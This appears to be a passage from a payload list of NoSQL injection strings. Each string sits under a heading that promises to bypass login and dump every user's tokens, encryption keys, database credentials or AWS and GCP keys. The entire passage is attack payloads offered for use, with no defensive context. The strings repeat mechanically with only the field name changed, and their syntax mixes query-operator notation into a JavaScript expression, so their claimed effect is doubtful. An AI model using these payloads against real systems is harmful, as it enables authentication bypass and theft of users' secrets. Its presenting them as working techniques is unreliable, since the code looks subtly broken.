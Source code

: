 ```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.refresh_token != null
```

#### Bypass Login and Get All Users' OAuth Tokens

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.oauth_token != null
```

#### Bypass Login and Get All Users' JWT Tokens

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.jwt_token != null
```

#### Bypass Login and Get All Users' Encryption Keys

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.encryption_key != null
```

#### Bypass Login and Get All Users' Database Credentials

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.db_credentials != null
```

#### Bypass Login and Get All Users' AWS Access Keys

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.aws_access_key != null
```

#### Bypass Login and Get All Users' AWS Secret Keys

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.aws_secret_key != null
```

#### Bypass Login and Get All Users' GCP Access Keys

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.gcp_access_key != null
```

#### Bypass Login and Get All Users' GCP Secret Keys

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.gcp_secret_key != null
```
